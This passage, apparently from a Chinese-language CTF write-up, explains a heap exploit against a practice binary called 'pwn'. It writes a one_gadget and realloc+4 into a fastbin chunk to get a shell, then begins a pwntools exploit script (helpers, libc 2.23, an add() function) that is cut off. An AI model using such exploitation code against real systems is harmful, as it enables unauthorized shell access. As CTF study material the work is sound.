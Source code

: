 ```plain
add(0x60,12,'a')
add(0x60,13,b'\x00'*0xb+p64(og)+p64(realloc+4))
```

这里realloc调栈上面介绍过了，然后b'\\x00'\*0xb+p64(og)可以当成固定的模板  
然后申请一下就getshell了

```plain
p.sendlineafter('choice >> ',str(1))
p.sendlineafter('wlecome input your size of weapon: ',str(0x60))
p.sendlineafter('input index: ',str(14))
```

## exp ( 关闭ASLR )

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'



#p=process('./pwn')
#p=remote('node4.buuoj.cn',29025)
elf = ELF('./pwn')
#libc=ELF('./libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def duan():
    gdb.attach(p)
    pause()

def add(size,idx,content):
    sla('choice >> \n',str(1))
    sla('wlecome input your size of weapon: ',str(size))
    sla('input index: ',str(idx))
    sa('input your name:\n',content)

```